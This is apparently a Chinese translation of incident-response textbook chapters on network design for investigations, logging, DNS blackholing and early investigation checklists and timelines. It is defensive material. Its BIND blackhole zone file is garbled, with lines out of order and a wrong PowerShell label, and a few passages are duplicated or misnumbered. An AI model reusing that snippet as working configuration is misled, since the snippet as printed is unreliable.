在设计或分析网络分割和过滤时，始终考虑系统或凭据妥协的影响。不幸的是，当涉及到人类时，可以假定某些控件将失败。在规划时进行的一个很好的练习是对几个重要的不良事件进行故障树分析。在顶层最小化OR条件的数量，并将预防工作集中在剩余的危害上。这种类型的分析也适用于下一节中的仪器，因为这些危害通常可以进行监视。
> 

限制工作站通信
图中未表示的另一个控制是终端点流量过滤。无论您的操作系统供应商希望什么，都不要全部信任端点的安全性。一旦恶意软件提升到系统级别特权，基于主机的防火墙就很容易修改。此外，Microsoft的网络模型的RPC元素防止使用边缘和交换设备限制服务级别访问。如果您的基础架构支持，除非端口连接到共享资源或另一个交换机，否则不要允许在托管交换机上的端口之间进行流量。设置此类过滤器的简便程度完全取决于组织内使用的技术。

> 目击报告
在IR的整改阶段中，我们的一个客户能够将所有工作站流量限制在特定的服务器和网关上。不允许用户的工作站直接与其他用户的工作站通信。几个月的时间里，有几个用户成功地被钓鱼。尽管这些人的系统被独立地攻击并窃取了凭据，但感染并没有传播。在隔离工作站并保护域凭据的措施之间，事故被防止成为企业范围的问题。
> 

我们的一些客户实施了一种有趣的方式来控制和监控流量如何退出他们的网络。这反映在我们的顶级网络图中。除代理服务器、防火墙和边界路由器以外，没有交换设备配置默认路由条目。所有需要访问外部资源的工作站和服务器都被引导到强制执行身份验证的代理服务器。到外部IP地址的流量可以发送到路由黑洞或发送到用于分析的系统。有些组织将其用作有效的早期警报系统，以识别简单的恶意软件。
请注意，尽管相当多的恶意软件现在“代理感知”，并且可以适当地进行身份验证，但强制流量通过代理服务器可以为组织提供有关流量退出网络的重要见解。代理服务器日志可以被IR团队用于确定是否发生了与特定标准相匹配的请求以及这些请求生成的流量量。通过监视允许和意外的连接尝试，您正在收集事件的直接和间接证据。

> 注意：
我们经常被问到一个问题：“我们应该设置蜜罐来分散攻击者的注意力吗？”蜜罐通常有两个目的。首先，人们认为它们可以通过呈现对组织无关紧要的系统和数据来消耗攻击者的时间和资源。这通常是无效的。如果蜜罐呈现的数据比“重要数据”更容易访问，则攻击者可能会分心，时间与您的IR团队的咖啡休息时间相同。如果您设置了一个复杂的蜜罐，它对攻击者构成了挑战，那么您的时间最好花在保护真正的资产上。其次，蜜罐被用作研究工具，以了解主动或潜在攻击者正在使用的方法。从调查角度来看，在活动事件期间，您的整个网络都起到了此目的。
如果您不在积极调查中，您的常规渗透测试没有重大结果，您的补丁管理已经更新，您的IR桌面演习已经完成，您的所有日志已经被审查，而您的IR团队感到无聊，那么请玩蜜罐。
> 

### 文档

通过增长、合并和收购，维护准确和当前的网络图是一个艰巨的任务。这是IT和网络人员的责任；然而，在调查期间，IR团队不断使用这些文件来确定风险、范围和纠正措施。

IR 团队应当随时掌握各种级别的环境图。通常来说，高层次的网络设计，包括网关、MPLS 连接、VPN 隧道以及边界控制设备，很少改变。这些图表在调查的最初阶段通常最为有用。如果尚未部署，那么网络监控设备的准确放置依赖于这些信息。随着图表的逐步详细，IR 团队可以确定潜在受损系统的位置以及它们对企业的风险。在某个时候，图表的实用性会被了解系统管理员所代替。

一个良好文档计划的一部分是存储各种设备的配置。IR 团队需要访问网络配置，例如路由器、防火墙和交换机。如果 IR 团队怀疑有篡改，这些信息可以提供帮助。有了配置文件和相关的变更控制文档的存档，任何可疑的更改或疑似篡改都可以轻松验证。

最重要的是，维护文档强制使整个组织意识到其资产和配置。结合变更控制，文档会减少组织在一次主动调查期间受到惊吓的可能性。

#### 仪器

在前面的部分中，我们讨论了应用于单个或一组系统的仪器，我们在这里提出同样的问题：可以记录、捕获或以其他方式记录什么，以帮助确定在网络上发生了什么？答案因组织而异，这取决于所部署的技术。请记住，我们不仅考虑为典型的 IT 安全目的应该捕获什么，而且还考虑在调查期间在战术上可以记录什么。最常见的日志记录和监控来源包括：
• 防火墙：事件应被记录到促进搜索和保留的位置。在调查期间，您可能会选择使用防火墙来通知您何时流量匹配了所选网络 IOC。
• 入侵检测系统：更适合于检查流量中的威胁指标，您的 IR 团队应该有权访问警报并提交其他指标。外包的 IDS 和流量监控服务效果很好，如果能够迅速反应并给您足够的可操作信息。
• 全内容捕获系统：您可能需要定期捕获整个会话以进行分析。如果您的网络设计考虑到这一点，那么对可疑流量进行全内容捕获可能就像在交换机上打开 SPAN 或端口镜像功能那样简单。在某些情况下，只需准备好一个平台，并配有硬件网络嗅探器即可。

> 目击报告
我们曾与许多 IT 和 IS 管理员合作，他们在主动调查期间了解到新服务器、网络甚至互联网网关的数量是惊人的。我们见证了攻击者比工作人员更熟悉企业的路由能力的情况。攻击者了解到美国网关上的活动网络监控，并插入了静态路由到欧洲的未受监控网关以避免被检测到。组织不知道他们不完整的过滤规则允许这条路由路径，直到发现一些受损工作站上的静态路由条目。

- Netflow 发射器 在常见的网关和内部交换机上，以每个主机或每个端口为基础收集 netflow 统计数据。分析数据流量的数量和频率可以帮助组织确定受损系统，并让 IR 团队了解被盗数据在环境中的移动方式。
• 代理服务器 如果强制所有出站流量通过经过身份验证的代理服务器，则 IR 团队可以使用代理日志来检查通信内容，检测数据的移动，识别与已知不良外部系统的通信，并跨地址转换设备跟踪请求的来源。当你有内部地址和身份验证记录时，你可以更容易地将 FBI 的通知转化为可操作的线索，例如“你网络中的一个系统在上周日的 16:07 把你的产品源代码推送到一个已知的丢弃站点”。

### 网络服务

在设计或修改一个友好的 IR 网络时，你需要考虑一些服务。除了前面提到的代理服务器外，配置你的 DNS 系统和 DHCP 服务器以允许广泛的日志记录。在工作站接收地址租约的子网中，确保 DHCP 服务器保留（或转移）分配日志一段时间（至少一年）。请记住，如果你长时间保留其他日志，其中捕获的源 IP 地址在可疑活动期间无法定位分配了该地址的系统，则可能无用。
实施 DNS 黑洞 你的环境中的 DNS 系统可能是你可以用来跟踪和阻止攻击者使用后门恶意软件的最有用的工具之一。当你将整个子域重定向到不存在或受管理的 IP 地址时，就会出现 DNS 黑洞。例如，假设你认为域“[pwn.ie](http://pwn.ie/)”是恶意的。你已经发现了配置为向该站点发出信标的恶意软件，并希望防止进一步成功解析该域名。你需要为该域生成一个区域文件，并将其条目指向无效地址。通常，在主要 A 记录中使用 127.0.0.1。例如，“blackhole.zone”的区域文件将创建以下内容：

```powershell
`$TTL 3D
@     IN    SOA`

`company.com. root.company.com. (
2012010100        ; Serial
28800             ; Refresh
7200              ; Retry`

`604800            ; Expire
86400)            ; Minimum TTL`

NS
* IN

  `company.com.
A     10.34.12.2
A     127.0.0.1`

`; Organization domain name
; DNS server address`

```

在解析器的配置中，所有对恶意域名的查询都将被分配到该区域：

```
zone "pwn.ie"  {type master; file "/etc/namedb/blackhole.zone";};
```

在 [pwn.ie](http://pwn.ie/) 的子域名的任何请求都将得到 127.0.0.1 的回复。更好的选择是将这些请求重定向到专门用于捕获恶意流量的系统。设置一个具有记录 Web 服务器和数据包捕获软件的 Unix 系统。恶意软件可能会尝试与您的伪造丢弃站点通信，从而提醒您针对的信息类型。

> 去网上找找
BIND和FreeBSD上的DNS黑洞www.pintumbler.org/Code/dnsbl
Microsoft DNS上的DNS黑洞www.sans.org/windows-security/2010/08/31/windows-dns-server-blackhole-blacklist
> 

### 那么呢？

俗话说得好，“预防胜于治疗。” 在本章中，我们提供了有助于您为事件做好准备的组织、IR 团队和基础架构的信息。对于了解其资产和风险、拥有设备齐全的响应团队和设计良好的网络架构的组织来说，响应事件将不再那么痛苦。但是，不要止步于此——一旦做好准备，我们建议您对流程和程序进行“干跑”。因为等待事件发生“看看情况如何”不太可能有好的结果。在下一章中，我们将关注事件检测和采取行动之间的关键时刻以及您可以采取的措施，以帮助避免昂贵的错误。

### 问题

1. 解释一下简单的网络服务（如 DHCP）如何在调查中变得至关重要。
2. 讨论与外包 IT 服务相关的一些挑战，因为它们涉及到进行调查。如何处理它们？
3. 为什么资产管理是为事件做好准备的关键方面？4. 什么取证工具在法庭上是可以接受的？解释你的答案。
4. 为什么集中日志记录很重要？
5. 什么是 DNS 黑洞？什么时候会使用它？编写一个 BIND 区域文件，将接受所有对恶意域名的查询并回答一个 RFC1918 地址。


# 第二部分 事件检测和表征

## 第4章 正确开始调查

愚者无异于天使所畏惧的地方。
当事件被检测到时，我们已经看到许多组织往往直接转向调查。在某些情况下，事件的细节可能会证明需要快速跳转到调查。然而，在大多数情况下，我们认为需要额外的步骤来正确开始调查。我们见过许多调查在基本事实确认之前开始。它们经常缺乏重点，最终浪费时间和资源。
有时人们对新信息感到兴奋，被瞬间的热情所吸引。与任何真实的情景一样，当你接收到新信息时，你应该始终以逻辑、常识和自己的经验来评估它。例如，2012年10月飓风桑迪期间发生了什么？许多人在互联网上发布了关于“突发新闻”的虚假报道，如纽约证券交易所交易楼的洪水。尽管洪水的确可能发生，但很少有人暂停去考虑消息来源是否可靠，或者关于报告的其他任何事情。媒体和公众被瞬间的情绪所席卷，并在短暂的时间内认为信息是真实和准确的。
我们在事件响应领域看到了这种情况的类比——调查人员有时在适当评估之前对新信息做出反应。例如，当你的检测系统报告了一个事件时，你会立即采取行动，还是会尝试验证信息？检测系统可能会误报或省略事件或事件细节。没有任何系统是完全准确的。你必须扮演门卫的角色，站在事件和调查之间。为此，你应该建立事件的整体情况，然后收集和验证初始事实。这将允许你开发上下文。接下来，你应该确定调查可以完成什么是适当和可能的。最后，这个过程需要快速进行，因为你的组织的安全、电子数据和声誉都受到威胁。

### 收集初步事实

我们经常看到参与事件的个人提供的陈述充满了流行语，难以理解或缺乏具体细节。电影《Ferris Bueller's Day Off》中的一句话是一个很好的例子，说明在事件期间如何准确获取事实。在电影中，角色Simone解释为什么Bueller不在课堂上：“我最好的朋友的妹妹的男朋友的兄弟的女朋友从认识这个孩子，他的女朋友看到Ferris在31种口味冰淇淋店昏厥了

在电影中，角色Simone解释为什么Bueller不在课堂上：“我最好的朋友的妹妹的男朋友的兄弟的女朋友从认识这个孩子，他的女朋友看到Ferris在31种口味冰淇淋店昏厥了。我想这是很严重的。” 当有人向您提供这样的陈述时，您需要立即处理情况以了解事实。

> 关于时区的一刻
说到时间，我们发现许多组织倾向于使用当地时间记录结果。尽管在记录时间时可能很方便，但在调查时却带来了很大的挑战。例如，在尝试跨多个时区协调事件时，处理时区转换可能很困难。一些时区不处于整数小时（印度是UTC+5:30，澳大利亚的一部分是UTC+8:45），一些时区有夏令时，每个夏令时都有自己的开始和结束日期。某些时区内的某些位置决定以不同的方式运作，例如亚利桑那州，其全年都遵循山区标准时间（MST）。为了帮助缓解转换问题，我们建议您选择一个单一的时区在所有报告和文档中使用。在我们的公司中，我们选择使用协调世界时（UTC）记录所有日期和时间。这听起来可能很困难，但通过一些规划，它很容易。一些取证工具默认显示UTC时间或允许您配置时区。如果他们不这样做，您可以在用于取证分析的系统上将时区更改为UTC。我们的调查人员也经常配置他们的操作系统以在UTC中显示额外的时钟。如果您有安全操作中心，最好在墙上放置一个配置为UTC时间的时钟。这需要一些适应时间，但像UTC这样使用单一时区将为您节省许多后顾之忧。
> 

事件的初步事实是调查开始的全部内容，因此正确获取它们是一个好主意。还要收集有关这些事实的其他信息，以便您可以建立上下文。例如，如果您知道IP地址属于哪个系统以及该系统扮演的角色，则IP地址将更有用。此外，如果您不知道相应的时区，事件发生的时间将不那么有用。没有这种上下文，很容易对事件的含义产生错误的结论。

 

随着时间的推移，验证事实和建立上下文变得自然起来。你们中的一些人可能已经有了很好的经验，而其他人可能需要一些指针来提高他们的技能。为了帮助，我们将涉及我们认为有益的领域。接下来的几个部分涵盖了我们开发的一些检查表、案例笔记的一些技巧以及开发攻击时间轴的重要性。

#### 检查表

我们在本节中涵盖了五个检查表：事件摘要、事件检测方式、单个系统详细信息、网络详细信息和恶意软件详细信息。当然，我们可以为其他领域制作检查表，但我们发现这些对事件响应调查最常见和最有用。此外，这些检查表并不是全面的。您可能需要添加、删除或更改项目，以使检查表更适合您的组织。我们在我们的附带网站ir3e.com上包括了本书中的这些和其他检查表，作为附录A。

我们建议您记录您自己的事件文档系统中的所有信息，即使数据存在于组织中的其他应用程序中。这些系统可能是错误的，没有任何保证数据将得到保存。请注意第一句话中的“您自己”的限定词。您的事件管理系统必须独立于组织中的任何其他IT资源，并且必须得到妥善保护。此规则适用于分配给IR团队的大多数IT资源。从一开始就假设您的域安全性已被破坏。不幸的是，很多时候确实是这样。

您选择的文档系统可能就像一个带有受限制的和经过审计的访问的文件共享，所有团队成员都保留笔记和报告，或者您可以启动一个故障处理请求跟踪系统，如请求跟踪器（RTIR）。不幸的是，许多数据管理系统在此时都不适合用于事件响应，或者非常灵活，大多数公司无法负担开发时间以适当地配置它们。

### 事件摘要检查表

您应该完成的第一个检查表用于收集事件的基本生命体征；它称为事件摘要检查表。这个检查表的目的是记录有关事件的高级信息。收集的信息应该为您提供事件发生的一般意义，并应该帮助确定您的响应协议可能需要关注的领域。

- 报告事件的日期和时间。记录个人或自动化系统最初引起IR团队注意的日期和时间。
- 检测到事件的日期和时间。通常，报告事件的时间比实际检测时间更近。请确保查明并记录实际检测到问题的时间。

> 在实践中
我们曾在多起事件中协助，攻击者在公司的Microsoft AD林中完全访问了每个系统。大多数情况下，域级别的用户或服务凭证很容易获得。这也意味着组织的电子邮件服务器、防火墙、数据库服务器等都已被攻破。IR团队的内部通信和与领导层及法律的通信正在被积极监视。在这个阶段，每个受害者都会学到两个教训：调查团队必须“带外”运作，以保证安全；任何供应商提供的基础设施同质化都是一个危险的选择。
> 
- 记录此信息的人员的联系信息。
- 报告事件的人员的联系信息。
- 检测到事件的人员的联系信息。如果组织是由外部方通知的，请确保记录所有细节并保留原始书面通信。
- 事件的性质。提供检测到的内容的分类——大规模恶意软件、钓鱼尝试、登录失败、未经授权访问等等。
- 受影响资源的类型。有时，检测或通知会提供有关可能受到影响的数据或资源的详细信息。保留所有提供的数据，无论它是否与PCI相关或是你最新的导弹速率陀螺仪的CAD图纸。除了让通知更加可信之外，它还有助于定义范围。
- 事件是如何被检测到的。提供检测方法的简要摘要，例如反病毒警报、IDS警报或用户报告的可疑行为。
- 事件影响计算机的唯一标识符和位置。确保获得真正唯一的标识符——由于DHCP租赁，IP地址可能不是唯一的。通常更有用的是获取主机名或资产标记号。
- 自检测以来谁访问了系统？记录自检测以来访问系统的人员是很重要的，以防调查人员需要了解他们所做的细节。有时IT人员或其他人可能会采取他们认为“有助于”的行动，但很难与恶意活动区分开来。
- 谁知道这个事件？
- 事件是否仍在进行中。
- 是否有必要将事件的知识保持为“需要知道”的基础。

完成事件摘要检查表后，您可以继续获取有关特定区域的更多详细信息。以下检查表的完成顺序应基于情况的需求。您还可以寻求帮助并同时完成多个检查表。我们将根据我们通常使用的顺序来呈现它们。

### 事件检测检查表

下一个检查表用于收集有关如何检测事件以及检测系统本身的其他详细信息。我们通过彻底收集和检查检测的细节解决了许多“事件”。查看细节使我们看到了某些被误解的东西，而实际上没有任何事件。在我们的经验中，花费额外的时间来验证检测是非常值得的。

- 检测是通过自动化还是手动进行的？人员还是自动化系统检测到了事件？请注意，此检测可能来自外部来源，因此了解自动化系统是否提醒了他们或结果是手动分析的重要性要考虑到其有效性。
- 初始检测中包含哪些信息？记录有关初始检测中存在的信息的详细信息。如果初始检测是警报，您是否有副本？如果检测是由人完成的，您是否与他们交谈以记录他们看到的内容？保持健康的怀疑精神，确保查看原始数据以确认您所说的或显示的内容。确保您收集的所有数据都得到了适当的保留，如第7到10章所讨论的那样。如前所述，如果数据规模可管理，则IR团队应负责其存储。
- 提供了哪些源数据？提供数据的源是人员还是自动化系统？如果来源是一个或多个自动化系统，请提供有关每个系统对检测的贡献的详细信息。请注意自动化系统存储的时区。
- 是否有人已获得并验证了源数据的准确性？如果有，是谁？如果人员参与了检测，是否有人验证了他们所检查的方法和数据？如果是自动化系统，则是否有人验证了原始数据和检测基于的标准？
- 涉及的源数据是否被保留？根据使用的系统或方法，与检测相关的数据可能不会自动保留。或者，它可能会在几个小时或几天内从系统中清除。请注意确保不会丢失与检测相关的信息。
- 检测源已经运行多长时间，谁运行它们？有时我们发现检测系统最近上线，并且正在产生误报，或者输出由于缺乏经验而被误解。记录每个系统运行的时间以及负责维护和审查它的人员。
- 检测和错误率是多少？与运行系统的人员交谈并查看警报。了解此类检测发生的频率。了解错误率。
- 与数据源有关的任何内容是否已更改？在某些情况下，我们发现管理员最近对系统进行了调整或升级。您应该与负责数据源系统的人员交谈，并了解最近是否进行了任何维护。可能会有一些不良的副作用。

#### 收集其他细节

如果您的检测细节似乎准确且一致，则下一步是继续收集有关与检测相关的特定元素的其他信息。您应该向下一级收集有关个别系统、网络和潜在恶意文件的详细信息。此外，可以深入挖掘在事件摘要检查表中收集的任何其他数据点。

##### 个别系统细节

对于涉及的每个系统，请考虑收集以下信息。您应避免将系统分组成一个文档，因为如果您不花时间询问有关每个个体系统的这些问题，很容易忽略细节。

- 物理位置

包括信息，以便组织外部的某个人能够清楚地确定系统的物理位置，例如完整地址、楼号、楼层、房间号或机架号。

- 资产标记号

这应该是您的IT工作人员用于跟踪资源的号码。它可能像系统的序列号一样简单，或者可能是由第三方应用程序分配的号码。

- 系统的型号

了解型号编号很重要，这样您就可以适当地计划您可能采取的任何操作。例如，如果系统是具有有限I/O端口的晦涩型号，则在计划保留证据时需要考虑到这一点。

- 安装的操作系统

记录操作系统的类型和版本也很重要，以便进行规划。您可能没有所需的工具或专业知识来处理特定的操作系统。

- 系统的主要功能

了解系统的主要功能有助于建立上下文。该系统是Web服务器吗？数据库服务器？提供了哪些网站或数据库？该系统是某人的笔记本电脑吗？他们在组织中的位置是什么？您为工程师的系统采取的响应步骤将与您为会计部门的服务器采取的响应步骤不同。

- 负责的系统管理员或用户

如果您需要保留证据，那么您很可能需要系统管理员的帮助。在某个时刻，管理员需要被告知正在发生什么——当然，如果他们不是调查的主体。

- 分配的IP地址

请注意，某些服务器具有多个接口，包括物理和虚拟接口。记录当前的IP地址，并包含一个说明，指示地址是通过DHCP分配还是静态配置的。后续线索可能是收集DHCP日志。

- 系统的主机名和域

在处理基于Microsoft Windows的系统时，请不要忘记包括工作组或域名。后续线索之一将是查询域生成的日志。

- 存储在系统中的关键信息。这将基于系统的主要功能进行。如果系统是源代码存储库，则应了解存储在其中的项目。如果系统是员工的笔记本电脑，则该员工从事什么工作？也许他们在人力资源部门，他们的笔记本电脑包含人事档案和其他敏感信息，或者是一个工程师，包含与特定程序相关的原理图。
- 系统是否存在备份。时间快照可以为调查提供有价值的信息。了解系统的备份是否存在，可用的时间范围是多久，直到被覆盖，以及如何请求访问它们是很重要的。
- 系统是否仍然连接到网络。如果系统已断开连接，现在在哪里？调查人员如何访问它？
- 自调查开始以来检测到的恶意软件列表，从日志数据的开始到调查的时间。记录恶意软件检测的详细信息-日期、时间、文件名、目录以及AV系统记录的类型和系列。了解恶意软件是否已提交给AV供应商或任何第三方扫描站点。如果IR团队以外的人员拥有恶意软件的副本，则应警告他们不要保留它，并让他们向您提供副本。
- 所采取的任何纠正措施的列表。用户是否删除或复制文件？也许管理员进行了配置更改或执行了密码重置。必须记录对系统的任何更改、由谁进行以及何时进行。有许多事件我们无法区分攻击者活动和响应者活动，因为它们重叠并且没有更多的信息可以帮助。
- 如果正在保留任何数据，则使用什么过程以及在哪里存储它。我们参与过许多事件，其中员工非常乐意提供帮助，并试图保存信息，但不知道良好的取证实践。您应该了解正在保存哪些数据以及它们如何保存。确保所有涉及的员工都知道并使用IR团队记录的接受实践。
**网络**详细信息。记录有关网络的详细信息同样重要，即使在网络详细信息一开始似乎不重要的情况下也是如此。最少应考虑以下几点：
- 所有涉及的外部恶意IP地址或域名的列表。记录与事件相关的任何IP地址、域名或主机名。进行一些快速研究 - 检查whois服务。
- 是否正在进行网络监控。如果网络管理员设置了网络捕获设备，则确定谁在进行捕获，捕获是在哪里执行的（物理和逻辑），数据存储在哪里，谁有权访问。澄清应用于捕获的过滤规则以及捕获是否包含会话的全部内容或仅包含标头（连接）信息。
- 已采取的任何纠正措施的列表。确定是否采取了阻止IP地址或某些域名被重定向到“黑洞”等步骤。了解这些控件何时放置。
- 如果正在保留任何数据，则使用什么过程以及在哪里存储它。与个别系统详细信息类似，请确保正确处理和跟踪与网络检测相关的任何数据。
- 网络图和配置的更新。获取任何与预事件演习一起收集的网络图和配置的更新。

**恶意软件详细信息** 对于与事件相关的每个恶意文件，您需要记录以下项目：
• 检测的日期和时间。
• 恶意软件是如何检测到的。
• 发现恶意软件的所有系统的列表。
• 恶意文件的名称以及它存在于哪个目录中。
• 检测机制的确定，例如恶意文件的名称和系列。
• 如果IR期间恶意软件处于活动状态，并且存在活动的网络连接。
• 是否通过手动或隔离过程保留了恶意软件的副本。
• 任何分析的状态。恶意软件是否已分析出了有关网络和主机的威胁指标？
• 恶意软件是否已提交给第三方，无论是通过自动过程还是通过员工直接操作。

前面检查表中的大多数问题的答案都是在调查开始时开发的。但是，有些问题可能直到很久以后才能得到回答，或者根本不可能。调查的整体目标是收集有关事件发现的事实和情况。当正确记录此类信息时，它建立了整个团队前进的基础，使其确信所做的决策是基于最佳可用知识的。

### 案例笔记的维护

在回应事件的过程中，保持记录是很重要的。从最初的检测或通知时刻到最终报告和披露文件，保持案例笔记至关重要。当发生许多事情并且同时进行多个事件时，案例笔记是让您保持清醒的关键。案例笔记有三个主要用途：它们使您保持专注，允许其他团队成员接管您留下的工作，并允许第三方复制您所做的事情。
我们通常在一个松散结构的非正式文件中保留案例笔记。您应该很容易地记录有关您所做的事情、您的想法、您发现的发现、他人所做的事情以及您计划下一步要做什么的快速笔记。将此类信息以时间顺序记录下来是很常见的。我们并不是说您需要记录每一个动作，而是记录更高级别的任务及其结果。请保持您的笔记专业，因为它们可能被外部人员发现。最后，不要将记录案例笔记与记录攻击者活动混淆-案例笔记是您所做的事情，而不是攻击者所做的事情。

#### 建立攻击时间轴

在我们进行的每次调查中，我们都会保持事件时间轴。时间轴使我们有组织，提供上下文，帮助识别矛盾之处，并提供总体情况。重要的是要意识到，事件不一定会按时间顺序输入。我们的意思是，您会在了解事件时输入事件，而不是在事件发生时（或发生时）。以下表格是按事件时间排序的时间轴的一个缩略示例：

| Date Added  | Event Time (UTC)  | Host  | Event Description  | Data Source |
| --- | --- | --- | --- | --- |
| 2013-05-08 | 2012-11-14 18:16:24 | host6492581 | Infected e-mail attachment opened by the user profile “bob. smith.” | File system, recent documents list |
| 2013-05-08 | 2012-11-14 18:20:44 | host6492581 | C:\WINDOWS\Prefetch\IPCONFIG.EXE-5874FA11.pf created. | File system metadata |
| 2013-05-08 | 2012-11-14 18:21:16 | host6492581 | C:\WINDOWS\Prefetch\GSECDUMP.EXE-54F3F8EA.pf created. | File system metadata |
| 2013-05-07 | 2012-11-15 07:13:00 | n/a | a suspicious e-mail he opened the prior day. | Security
 ticketing System |
| 2013-05-08 | 2013-05-08 05:15:00 | n/a | Live response data collected from user Bob Smith’s computer,host6492581 | Security ticketing system |

| 添加日期 | 事件时间 (UTC) | 主机 | 事件描述 | 数据源 |
| --- | --- | --- | --- | --- |
| @May 8, 2013 | @November 14, 2012 18:16:24 | host6492581 | 用户档案“bob. smith”打开了被感染的电子邮件附件。 | 文件系统，最近文档列表 |
| @May 8, 2013 | @November 14, 2012 18:20:44 | host6492581 | 创建了C:\WINDOWS\Prefetch\IPCONFIG.EXE-5874FA11.pf。 | 文件系统元数据 |
| @May 8, 2013 | @November 14, 2012 18:21:16 | host6492581 | 创建了C:\WINDOWS\Prefetch\GSECDUMP.EXE-54F3F8EA.pf。 | 文件系统元数据 |
| @May 7, 2013 | @November 15, 2012 07:13:00 | n/a | 指出了他在前一天打开的可疑电子邮件。 | 安全票务系统 |
| @May 8, 2013 | @May 8, 2013 05:15:00 | n/a | 从用户Bob Smith的计算机host6492581收集的实时响应数据。 | 安全票务系统 |

将新信息与时间轴进行比较可以帮助验证新线索。例如，如果您发现的信息表明初始攻击发生在当前记录的最早日期之前六个月，那么您要么在案件中取得了重大突破，要么您正在查看不相关的信息。另一个例子可能涉及事件序列。想象一下这样一种情况：您发现攻击者创建了一个文件，然后将其从网络中传输出去。将信息放入时间轴后，您会注意到代理服务器记录的传输时间戳在文件创建日期之前。因为文件必须在传输之前存在，所以您正在查看的数据或您的解释方式存在问题。

攻击时间轴侧重于攻击者的重大活动。记录详细信息，如攻击者何时访问系统、何时创建文件、何时传输数据以及何时执行工具。还重要的是在时间轴上记录数据的来源。例如，如果您记录了攻击者访问系统的信息，请包括您找到该信息的位置。最后，请不要忘记记录事件发生的系统的唯一标识符。

### 了解调查优先事项

要进行成功的调查，必须考虑目标和期望结果。每种案件类型都有自己的考虑因素——无论目标是诉讼还是简单地加强安全立场。团队需要了解应该证明或发现什么以及如何呈现结果。

#### 什么是证明的元素？

在法律意义上，证明的要素定义了一个索赔的支持要素。
例如，如果您调查了盗窃的索赔，那么您的主要证明要素可能是建立物品是带着剥夺另一个人该财产的意图而被拿走的。然而，企业事件响应团队执行的调查可能不像盗窃或版权侵犯那样容易定义。在入侵调查期间，我们开发了一个更广泛的“证明要素”的定义，其中驱动索赔的元素在开始时很少且广泛，范围逐渐缩小并随着时间的推移而发展出更多细节。关键是记住您将要生成的报告的主要消费者。例如，许多入侵调查的目标是直截了当的；您需要确定是谁闯进来的，发生了什么，他们访问了什么，以及他们是否仍然在您的网络中像一个过度狂热的獾一样四处跑动。另一方面，在涉及到支付卡行业（PCI）调查的情况下，如果存在账户数据的可能损失，目标将需要包括生成可能受损的账户号码列表以及损失发生的日期。其他类型的调查目标可能不太明显，并且可能需要与法律顾问进行额外的计划，如果他们没有领导调查的话。
例如，考虑版权侵权调查。通常情况下，员工律师或外部法律顾问将指导团队在这些情况下进行调查。尽管如此，认真的检查员会非常注意理解法律团队可能期望的内容，并考虑可用的数据源以满足这些期望。了解侵权诉讼中存在两个主要方面——证明拥有有效版权和显示“可诉的复制”——将有助于指导检查员进行分析，并建议法律团队其他方法或来源。在调查期间，类似于处理知识产权案件的方式，大多数行动将由您的法律团队指导。他们将承担证明或否认所作声明的责任，但可能依赖于您的团队识别、保留和有时分析数据。这些是对您的工作、预定义的调查流程和文档技能进行更高程度的审查的调查。

#### 与管理层设定期望

当您的组织考虑发起一项调查时，您应该花时间审查影响您的目标合理性的因素。这将帮助您与管理层设定适当的期望，并使他们和您能够做出正确的决策。至少，您需要考虑可用的证据来源、事件类型、必须回答的问题以及您的团队工作时间。例如，在网络入侵期间，攻击者经常使用海外跳板，除非问题达到将联邦执法机构纳入调查的门槛，否则法律行动将变得困难或不可能。如果侵犯发生在几个月或几年前，则可能没有可供审查的证据。这些因素可能会在调查期间发生变化，因此定期重新评估它们以确保期望仍然是合理的是一个好主意。
一旦您对当前情况有了一个舒适的预期，确保您有效地与管理层沟通。这使他们有机会与您对话，了解任何关注或挑战，并做出明智的决定。最终，这有助于教育您和管理层各自的问题和观点，并将在未来导致更现实的期望。

> 目击者报告
我们参与了许多调查，其中最初的目标几乎无法实现。例如，一个组织的 Web 应用程序服务器遭到入侵，攻击者设置了一个 warez 站点。该公司的初步分析表明，入侵起源于 Web 服务器的管理界面。Web 服务器日志显示，在入侵时间前后运行了一个众所周知的漏洞扫描器。管理层希望内部 IR 团队确定谁建立了 warez 站点，以便他们可以采取法律行动。在内部 IR 团队的努力失败后，该组织向我们公司寻求帮助。我们与该组织详细讨论了事件以及他们希望从调查中获得什么。我们解释说，这些类型的攻击非常普遍且高度自动化。找到要责备的人的几率极小。即使调查确实找到了罪犯，这种情况的法律赔偿对该组织来说可能微不足道。我们建议将精力集中在确定漏洞是什么以及采取措施确保解决问题以防止再次发生。如果内部 IR 团队与法律团队咨询并考虑到令人满意的解决方案的可能性，管理层可能会理解内部调查的限制。
> 

### 那么呢？

每项调查刚开始时，面临的主要挑战是区分事实和虚构，并设定初始优先级。在本章中，我们讨论了良好的沟通、文档记录和推理技能。这些将有助于确保流向调查人员、管理层、法律人员和其他决策者的信息尽可能准确。使用像本章中概述的清单可以帮助确保在可能事件的狂热早期阶段不会忘记关键事项。

### 问题

1. 收集关于事件的初始信息应使用哪五个主要清单？列出每个清单的两个关键数据点，并解释它们的重要性。
2. 在事件中，您发现攻击者对数据库服务器进行了暴力破解攻击。您在您的事件管理系统中记录了此事件。您使用了哪个时区？为什么？
3. 在维护攻击者活动时间轴时，应为每个条目记录哪四个信息？选择一个文件，例如 Microsoft Windows 计算机上的 win.ini 或基于 Unix 的主机上的 /etc/hosts，并为该文件记录尽可能多的与时间有关的条目。
4. 为什么保持案例笔记很重要？您应该多久更新它们？
5. 假设您的 Web 服务器集群被发现正在作为攻击者在其他公司活动的“丢弃站点”。您的调查优先事项是什么？您将如何证明事件得到了妥善处理？

## 第5章 领导的初步开发

正如我们在第2章中所指出的那样，领导是有关被盗数据、网络指标、可能主题的身份或导致妥协或安全事件的问题的可操作项。在本章中，我们介绍了将领导转化为可操作项的各种方法，并讨论了生成指标和扫描环境以检测恶意活动发生位置的方法。可操作项或任务是在调查过程中完成任何事情的唯一手段。它们可以是您可以用来扫描整个企业的指标、网络流量签名，或者仅仅是一个资源，如果需要对某个员工进行采访。

> 注意：
请记住，领导或指标仅仅是表征与调查相关的一些有形元素的方式。它可以是搜索您知道存在的某些东西（恶意软件的工件或用户浏览器历史记录的内容），或者是您知道在总体上可疑的东西（一系列与用户相关或内核相关的事件）。
> 

### 定义有价值的领导

什么是有价值的领导？我们在第2章中讨论了一个好的领导有三个特点：

- 领导必须相关；
- 领导必须是可操作的；
- 领导必须有足够的细节。

将好的领导与坏的领导分开很重要，特别是当您有一个时间有限的团队时。领导生成的过程应是连续的。在大多数计算机入侵调查中，如果您发现领导变得稀缺，这往往是由于调查方法而不是实际数据的缺乏。根据调查的状态，您可能需要创建一个非正式流程来对领导进行分类和优先处理。这个过程对新的IR团队尤其有用。在分配时间或资源之前，我们对领导执行以下三个操作：

- 澄清数据。
